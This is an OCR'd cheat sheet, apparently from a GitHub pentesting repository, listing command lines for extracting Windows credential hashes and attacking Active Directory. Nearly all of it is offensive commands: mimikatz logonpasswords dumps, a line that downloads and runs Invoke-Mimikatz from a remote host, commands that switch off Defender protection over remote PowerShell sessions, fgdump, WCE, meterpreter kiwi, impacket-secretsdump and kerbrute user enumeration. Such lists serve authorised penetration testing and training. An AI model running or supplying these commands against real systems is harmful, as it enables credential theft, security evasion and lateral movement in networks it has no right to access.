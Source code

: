 ### Extracting Hashes in Domain and Pivoting  
  Dump the credentials of all connected users, including cached hashes
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
-> mimikatz + ScriptBlock
```
$sess = New-PSSession -ComputerName <hostname>
```
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
iex (iwr http://<ip>/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
or  
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
Invoke-Mimikatz
```

### Extracting Hashes in cache
  fgdump  -> /usr/share/windows-binaries/fgdump/fgdump.exe
```
fgdump.exe
```
 meterpreter  
```
load kiwi
creds_msv
```
  wce-universal (Clear Text password)  -> /usr/share/windows-resources/wce/wce-universal.exe
```
wce-universal.exe -w
```
 mimikatz
```
.\mimikatz.exe
sekurlsa::wdigest -a full  
sekurlsa::logonpasswords
```
mimikatz - meterpreter  
```
load mimikatz  
wdigest
```

### Extracting Hashes (Remote)
```sh
impacket-secretsdump <user>:<password>@<IP>
```

### AS-REP Roasting Attack - not require Pre-Authentication
  kerbrute - Enumeration Users
```sh
kerbrute userenum -d test.local --dc <dc_ip> userlist.txt
```
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

